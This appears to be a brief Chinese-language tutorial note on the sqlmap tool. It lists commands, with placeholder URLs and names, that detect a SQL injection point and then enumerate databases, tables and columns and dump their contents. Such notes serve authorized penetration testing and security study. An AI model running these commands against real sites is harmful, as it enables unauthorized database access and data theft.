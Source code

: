 #### Sqlmap工具

1. 检查是否存在注入点（网址后最好接有GET型参数）

   ```shell
   sqlmap -u http://web_address/?parameter=1
   ```

2. 查询数据库名

   ```shell
   sqlmap -u http://web_address/?parameter=1 --current-db
   ```

3. 查询数据库内所有表名

   ```shell
   sqlmap -u http://web_address/?parameter=1 -D [database_name] --tables
   ```

4. 查询表中所有列名（字段名）

   ```shell
   sqlmap -u http://web_address/?parameter=1 -D [database_name] -T [table_name] --columns
   ```

5. 查询列内值

   ```shell
   sqlmap -u http://web_address/?parameter=1 -D [database_name] -T [table_name] -C [column_name1], [column_name2] --dump
   ```